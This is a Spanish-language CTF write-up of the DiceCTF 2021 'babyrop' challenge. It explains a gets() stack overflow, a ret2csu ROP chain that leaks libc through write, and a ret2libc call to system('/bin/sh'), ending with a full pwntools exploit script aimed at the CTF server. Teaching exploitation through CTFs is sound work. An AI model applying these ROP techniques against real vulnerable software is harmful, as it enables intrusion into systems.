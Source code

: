 ```yaml
---
layout: post
title: diceCTF babyrop
date: 2021-02-09 13:59
comments: true
categories: [Sin categoría]
---
```


Hola, ya que he decidido migrar mi página github pages,y para pastor este 2021, aprovecharé de hacer un write up de un binario que hice el fin de semana en DICECTF 2021. La parte de pwn estuvo bien buena. Solo alcance a hacer este rop y un heap a medias, pero al menos sirvió para mantener la práctica. 

El binario en cuestión podemos ver que es de 64bit , sin RELRO ni PIE, lo cual hace las cosas bastante sencillas. Eso sí, debemos considerar que probablemente ASLR si está habilitado en el sistema con lo que de todas formas necesitaremos de un leak.

![file](/assets/dice/dice1.png)

Al revisar las funciones vemos que ocupa la función GETS (ya sabemos que esto lleva a buffer overflow), pero solo ocupa adicional a esto la función de ”write” para imprimir en pantalla.


Considerando esto nuestro plan de explotación será el siguiente:

Generar un Overflow y usar ROP para “lekear” una dirección de LIBC
Identificar la version de LIBC
Calcular los offsets necesarios
Volver a generar un Buffer Overflow esta vez llamar a system y obtener una shell


Para obtener el leak el plan es generar un ROP y hacer un llamado a la función de write, podemos observar los parámetros que usa este syscall en el siguiente link. En resumen debemos ubicar en el registro RDI el file descriptor 1 (stdout), la dirección  que queramos “lekear” en RSI (en este caso usaremos la dirección GOT de gets y write) y en el registro RDX debemos darle un valor que usará para definir cuántos bytes se imprimirán en pantalla. Por lo mismo debemos considerar para esto al menos 8 bytes.


Podemos usar “ropper” para mostrar los gadgets del binario y no tener que hacer una búsqueda manual, pero vemos que no hay forma de controlar el valor de rdx, pero! Por eso mismo siempre les recomiendo revisar el binario de manera manual, por que en este caso podemos ocupar una técnica conocida como ret2csu. 

Puedes leer una descripción más detallada acá, pero en resumen usando esta técnica podemos encontrar ciertos “gadgets universales” que nos permiten controlar ciertos registros haciendo uso de estas funciones que siempre se cargan en un ELF producto de la compilación. En este caso usaremos la funcion __lib_vsu_init

Podemos observar que podemos usar un pop al registro R14 en la dirección 0x4011d0 y luego mover con “MOV rdx, r14” en 0x4011b0 el valor al registro RDX. Además el mismo gadget nos permitirá usar R15 y R13 para poder situar los valores de RSI y EDI (4 bytes de RDI).

Para que esto funcione debemos primero agregar los registros necesarios en nuestro “ropchain” de tal m anera que pase el check en 0x4011c4 y hacer que el call, llame a write directamente por lo cual debemos asegurarnos que el valor de write este en  0x4011b9 call   QWORD PTR [ r15+rbx*8 ] 

```
payload = b"A"*0x48 #overflow a los 72 bytes
payload += p64(0x4011ca) #pop a registros
payload += p64(0)#rbx
payload += p64(1)#rbp
payload += p64(1)#r12 --> edi
payload += p64(elf.got.gets) #r13 --> rsi
payload += p64(8)#r14 ---> rdx
payload += p64(elf.got.write) #r15
payload += p64(0x04011b0) # escribiendo en RDX RSI Y EDI
payload += p64(0)*7 # --> los pop nuevamente
payload += p64(elf.sym.main) #para retornar a main y hacer un segundo bof
```

Si enviamos esto podemos lekear las direcciones de gets y write


Con esto podemos buscar una versión de libc remota que coincida y de esa forma podemos calcular los offsets.

Podemos ver que coincide con la versión <> , podríamos descargarla pero dado que esta pagina nos entrega los offset a system y al string de /bin/sh dentro de glibc, pues probaremos con esto en nuestro segundo payload, de la siguiente forma:

```
payload = b"A" * 72 #overflow
payload += p64(poprdi) #pop rdi en el binario
payload += p64(libc.address+0x1b75aa) #string de /bin/sh a RDI como primer arg
payload += p64(ret) #ret para alinear el stack a 16 bytes (ubuntu)
payload += p64(libc.address+0x055410) #direccion de system

```


Con esto ejecutamos y listo! Tenemos una shell.

Espero que les haya gustado, este fue el único exploit que pude terminar en el CTF tuve mucho que hacer y los retos no estaban tan fáciles. Aun asi ya he hechos desafíos para Q4 que ocupan esta técnica, por lo cual me pareció valido mostrar como funciona. Espero les haya gustado, aca les dejo el exploit final:

```
#!/usr/bin/python3
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./babyrop')
context.terminal = ['tmux', 'splitw', '-hp', '70']
libc = elf.libc

def start():
    if args.GDB:
        return gdb.debug('./babyrop', gdbscript=gs)
    if args.REMOTE:
        return remote('dicec.tf', 31924)
    else:
        return process('./babyrop')
r = start()
r.timeout = 0.3
#========= exploit here ===================

poprdi = 0x4011d3
ret = 0x040116b

payload = b"A"*0x48 #overflow a los 72 bytes
payload += p64(0x4011ca) #pop a registros
payload += p64(0)#rbx
payload += p64(1)#rbp
payload += p64(1)#r12 --> edi
payload += p64(elf.got.gets) #r13 --> rsi
payload += p64(8)#r14 ---> rdx
payload += p64(elf.got.write) #r15
payload += p64(0x04011b0) # escribiendo en RDX RSI Y EDI
payload += p64(0)*7 # --> los pop nuevamente
payload += p64(elf.sym.main) #para retornar a main y hacer un segundo bof

r.sendlineafter("name:", payload)

leak = u64(r.recvuntil("Your").split(b"Your")[0][1:7].ljust(8,b"\x00"))  #remote offset
libc.address = leak - 0x086af0
log.info(f"leak = {hex(leak)}")
log.info(f"libc remote = {hex(libc.address)}")

payload = b"A" * 72 #overflow
payload += p64(poprdi) #pop rdi en el binario
payload += p64(libc.address+0x1b75aa) #string de /bin/sh a RDI como primer arg
payload += p64(ret) #ret para alinear el stack a 16 bytes (ubuntu)
payload += p64(libc.address+0x055410) #direccion de system

r.sendlineafter("name:", payload)  #!!

#========= interactive ====================
r.interactive()
```